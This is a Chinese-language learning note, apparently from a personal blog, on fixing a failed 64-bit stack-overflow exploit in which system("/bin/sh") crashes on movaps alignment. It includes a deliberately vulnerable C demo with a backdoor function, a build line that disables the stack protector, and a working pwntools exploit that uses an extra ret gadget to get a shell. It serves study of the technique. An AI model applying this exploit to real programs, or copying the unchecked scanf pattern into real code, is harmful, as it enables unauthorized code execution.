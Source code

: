 # 64位栈溢出执行system("/bin/sh")失败

会报错说找不到/bin/sh。这个问题得用了我3天时间来解决。心得就是：要用心找，再就是找bug等一切学习需要时间。

报错代码：

<img src="../phtots/64位栈溢出执行system1.png" style="zoom:67%;" />

原因：movaps要求内存16字节对齐，普通的填充造成的栈溢出可能使得内存不是16字节对齐。



1、可以用execve(‘/bin/sh’,0,0)代替，这个函数好像没用到movaps。

2、在rbp和返回地址之间多加一个地址，这条地址指向函数的ret指令，让rsp+8，这样就能16字节对齐了。

函数的ret让eip指向我们加入的那个地址，这个地址指向ret，所以下一步会再执行ret，这样就能到达目标代码区域，并且让rsp多加了8



源代码demo.c

```c
#include <stdlib.h>
#include <stdio.h>

void backdoor() {
	printf("backdoor\n");	
	system("/bin/sh");
}

void func() {
	char buf[20];
	printf("Hello man.Say sth.\n");
	scanf("%s",buf);
	printf("you say:%s\n",buf);

}

int main(){
	func();
	return 0;
}
```

编译方法

```bash
gcc demo.c -o demo -fno-stack-protector
```

exp程序

```python
from pwn import *
context(os='linux',log_level='debug') #打印调试信息
#conn = gdb.debug('./demo', 'break main')
conn = process('./demo')
backdoor = 0x40116d
retPos = 0x4011c6

conn.recv()
payload = b'a' * (0x20 + 8) + p64(retPos) + p64(backdoor)

conn.sendline(payload)
conn.recv()
conn.interactive()
```

思路：看到buf缓冲区只有20，可以溢出缓冲区，覆盖返回地址，填充的字节是buf到rbp的距离 + 8字节(rbp占8字节)，然后填写返回地址，用pwn库中的p64函数将地址转为64位小端程序。这里遇到的问题就是

1、搜索后发现有时候导致rsp不是16字节对齐的，而64位中system函数需要用到movaps指令，这条指令要求16字节对齐，否则好像无法执行。

2、所以需要想办法让rsp按照16字节对齐，搜索到大佬的博客

http://homura.cc/blog/archives/168?unapproved=92&moderation-hash=9b8b37cc6d3314fe1f7c00d47ab9c444#comment-92

思路就是在返回地址和rbp之间新加一个地址，这个地址指向当前函数的ret指令，即让ret指令执行两次，第一次执行时pop eip让eip又指向这条ret指令，第二次执行时还是pop eip让eip指向目标代码，这时rsp多减了8，实现了16字节对齐。



心得：这次这个bug用了至少3天时间来解决，

期间学习了在pwn中开一个新的终端继续运行gdb，二者配合使用，非常强大。

还学习如何解决这个bug，知道了movaps指令要求16字节对齐，再就是多加一个地址让ret指令多执行一次的技巧，其实如果可以，应该可以让ret指令执行很多次，即多加n个一样的地址都指向ret，嘿嘿嘿。

仍然还在思考的是怎么写程序向栈中输入真正的0，即它的值是0x00000000，而不是字符‘0’，从终端输入的是字符。







